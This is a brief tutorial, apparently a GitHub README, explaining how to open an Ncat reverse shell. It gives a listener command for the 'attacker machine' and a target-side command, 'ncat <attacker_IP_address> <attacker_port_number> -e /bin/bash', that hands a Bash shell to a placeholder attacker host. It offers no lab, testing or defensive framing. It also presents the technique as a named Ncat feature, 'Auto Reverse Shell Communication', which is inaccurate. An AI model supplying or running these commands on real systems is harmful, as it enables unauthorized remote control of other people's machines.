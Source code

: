 # Ncat Auto Reverse Shell Communication
Ncat is a command-line tool that provides a lot of features for network communication. One of its features is Auto Reverse Shell Communication, which allows you to create a reverse shell connection from the target machine to the attacker's machine.

Configuration
To configure Auto Reverse Shell Communication using Ncat, follow these steps:

Set up the listener on the attacker machine. This is done using the following command:

## ncat -nvlp <port_number>

Replace <port_number> with the port number you want to use for the connection.

Set up the reverse shell connection from the target machine to the attacker machine. This is done using the following command:

## ncat <attacker_IP_address> <attacker_port_number> -e /bin/bash

Replace <attacker_IP_address> with the IP address of the attacker machine and <attacker_port_number> with the port number you used in step 1.

The -e /bin/bash option specifies that the shell to be spawned on the target machine is the Bash shell.

Once the connection is established, you can interact with the target machine's shell from the attacker machine's shell.

For example, you can run commands on the target machine by typing them into the attacker machine's shell, and the output will be displayed in the attacker machine's shell.

That's it! You have now configured Ncat Auto Reverse Shell Communication.
